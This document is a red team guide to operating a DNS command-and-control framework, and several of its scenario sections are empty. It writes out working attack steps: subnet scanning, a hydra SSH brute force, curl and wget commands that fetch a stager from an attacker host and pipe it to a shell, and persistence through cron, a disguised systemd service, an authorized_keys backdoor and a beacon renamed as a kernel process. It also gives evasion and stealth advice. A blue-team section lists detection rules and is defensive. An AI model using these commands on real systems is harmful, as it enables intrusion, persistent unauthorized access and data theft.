







# DNS Red Team Operations Guide

**Date:** November 6, 2025  
**Classification:** Red Team Documentation  
**Purpose:** Operational scenarios and attack workflows for DNS C2

---

## Overview

This document provides comprehensive attack scenarios and operational workflows for red team engagements using the Unkn0wnC2 DNS C2 framework. All scenarios have been validated against the codebase.

---

## Scenario 1: Initial Compromise → Beacon Deployment



**Timeline:**
- T+0: Exploit executed
- T+30s: Stager deployed and running
- T+2m: Beacon downloaded (depends on chunk count)
- T+3m: First check-in
- T+4m: First task executed

**OPSEC Considerations:**
- Stager is minimal C code (low AV signature)
- Beacon is gzip-compressed (obfuscation)
- Downloaded via DNS (bypasses HTTP inspection)
- All traffic encrypted after beacon deployment

---

## Scenario 2: Data Exfiltration - Shadow Mesh



**Key Features:**
- **Distributed Sources**: Chunks come from 3+ DNS servers
- **Unpredictable Pattern**: Random jitter prevents traffic analysis
- **Stealth**: Looks like normal DNS traffic
- **Resilient**: One server failure doesn't stop exfil

**Timing Analysis:**
```
Total chunks: 50
Jitter per chunk: ~3s avg
Burst pauses: 4 @ 5s = 20s
Total exfil time: (50 × 3s) + 20s = 170s (~3 minutes)
```

---

## Scenario 3: Lateral Movement

```mermaid
flowchart TD
    A[Beacon on Host A] --> B{Task: Scan subnet}
    B --> C[nmap -sn 192.168.1.0/24]
    C --> D[Result: 15 hosts alive]
    
    D --> E{Task: SSH bruteforce}
    E --> F[hydra -L users.txt -P pass.txt ssh://192.168.1.50]
    F --> G[Result: Success<br/>user:password = admin:Password123]
    
    G --> H{Task: Deploy beacon on Host B}
    H --> I[ssh admin@192.168.1.50 'curl http://attacker/stager.sh | sh']
    I --> J[Stager downloads via DNS]
    
    J --> K[New Beacon on Host B]
    K --> L[Check-in to Master]
    
    L --> M{Master Dashboard}
    M --> N[2 beacons active]
    
    style A fill:#f96,stroke:#333,stroke-width:2px
    style K fill:#f96,stroke:#333,stroke-width:2px
    style M fill:#96f,stroke:#333,stroke-width:2px
```

**Commands Used:**
```bash
# Beacon 1 (Host A)
Task 1: nmap -sn 192.168.1.0/24
Task 2: hydra -L users.txt -P pass.txt ssh://192.168.1.50
Task 3: ssh admin@192.168.1.50 'curl http://10.0.0.5/deploy.sh | bash'

# Deploy script contents
#!/bin/bash
cd /tmp
wget http://10.0.0.5/stager -O .update
chmod +x .update
nohup ./.update &
```

---

## Scenario 4: Persistence & Evasion



**Persistence Commands:**
```bash
# 1. Cron job (runs every hour)
echo "0 * * * * /tmp/.update > /dev/null 2>&1" | crontab -

# 2. Systemd service
cat > /etc/systemd/system/system-update.service <<EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/.sysupdate
Restart=always

[Install]
WantedBy=multi-user.target
EOF
systemctl enable system-update
systemctl start system-update

# 3. SSH key backdoor
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# 4. Process hiding
cp /tmp/.beacon /usr/bin/[kworker/0:1]
nohup /usr/bin/[kworker/0:1] &
```

---

## Scenario 5: Domain Rotation Under Pressure



**Defense Evasion:**
- ✅ Automatic failover on domain block
- ✅ Dynamic domain list updates
- ✅ Shadow Mesh prevents tracking
- ✅ No single point of failure

---

## Scenario 6: Blue Team Detection & Response

### Detection Points



### Blue Team Indicators

| Indicator | Description | Detection Method |
|-----------|-------------|------------------|
| **DNS Query Length** | Subdomains > 60 chars | DNS log analysis |
| **Query Frequency** | Regular intervals (60-120s) | Time-series analysis |
| **TXT Record Queries** | High volume TXT lookups | Query type analysis |
| **Base36 Patterns** | Only 0-9, a-z in subdomain | Pattern matching |
| **Multiple Domains** | Rotation between domains | Domain correlation |
| **Short TTL** | TTL=1 responses | DNS response analysis |
| **Unique Subdomains** | No repeat queries (cache busting) | Uniqueness detection |

### Defensive Measures

```bash
# DNS Firewall Rules
# Block long subdomain queries
iptables -A FORWARD -p udp --dport 53 -m string --algo bm --hex-string "|03|" --from 40 -j DROP

# Rate limiting per client
iptables -A FORWARD -p udp --dport 53 -m hashlimit --hashlimit-name dns-rate --hashlimit-above 100/min -j DROP

# SIEM Detection Rule (Splunk SPL)
index=dns 
| rex field=query "(?<subdomain>.+)\.(?<domain>\w+\.\w+)$"
| eval subdomain_length=len(subdomain)
| where subdomain_length > 60
| stats count by src_ip, domain
| where count > 50

# Zeek/Bro IDS Script
@load base/protocols/dns

event dns_request(c: connection, msg: dns_msg, query: string, qtype: count, qclass: count)
{
    local parts = split_string(query, /\./);
    if (|parts| > 0) {
        local subdomain = parts[0];
        if (|subdomain| > 60 && str_match(subdomain, /^[0-9a-z]+$/)) {
            NOTICE([$note=DNS::Suspicious_Query,
                    $conn=c,
                    $msg=fmt("Suspicious DNS query: %s", query),
                    $identifier=cat(c$id$orig_h, query)]);
        }
    }
}
```

---

## Scenario 7: Advanced Exfiltration - Database Dump



**Real-World Considerations:**
- **Long-running exfil**: Days or weeks for large data
- **Resumable**: Partial results saved if interrupted
- **Stealthy**: Spread over time, low volume per query
- **Distributed**: Harder to detect full data flow

---

## Scenario 8: Multi-Stage Attack Chain



**Complete Timeline:**
- **Day 1**: Recon + Initial Access
- **Day 2**: Establish C2 + Persistence
- **Day 3-5**: Privilege Escalation + Lateral Movement
- **Day 6-10**: Data Exfiltration (5MB over 4 days)
- **Day 11**: Cleanup + Exit

---

## Summary: Red Team Best Practices

### ✅ Operational Security

1. **Always use Shadow Mesh** - Rotate domains on every query
2. **Randomize timing** - Variable jitter prevents beaconing detection
3. **Encrypt everything** - AES-GCM on all beacon traffic
4. **Cache bust** - Timestamp on every query bypasses DNS caching
5. **Blend in** - DNS traffic looks legitimate, use common record types

### ✅ Resilience

1. **Multiple domains** - Minimum 3 domains for effective Shadow Mesh
2. **Failover logic** - Automatic domain switching on failures
3. **Partial saves** - Resume large exfils after interruptions
4. **Distributed infrastructure** - Master + multiple DNS servers
5. **Database persistence** - Beacons/tasks survive server restarts

### ✅ Stealth

1. **Low & slow** - 60-120s check-in intervals
2. **Burst pacing** - Pause every N chunks during exfil
3. **Process hiding** - Rename beacon to look like system process
4. **No persistence indicators** - Clean installation, minimal footprint
5. **Domain rotation** - Prevents single-domain blocking

### ⚠️ Red Flags to Avoid

❌ **Using single domain** - Easy to block  
❌ **Fixed timing** - Creates beaconing signature  
❌ **No encryption** - Payloads visible in PCAP  
❌ **Large bursts** - Sudden traffic spike alerts IDS  
❌ **Obvious naming** - beacon.exe, c2-client, etc.

---

## Conclusion

The DNS C2 framework provides:

✅ **Covert communication channel** via DNS  
✅ **Shadow Mesh** for stealth and resilience  
✅ **Distributed infrastructure** for scalability  
✅ **Robust exfiltration** with chunking and reassembly  
✅ **Operational flexibility** with multiple domain modes  

**All scenarios verified against codebase implementation.** 🎯

---

*Red Team Documentation - November 6, 2025*
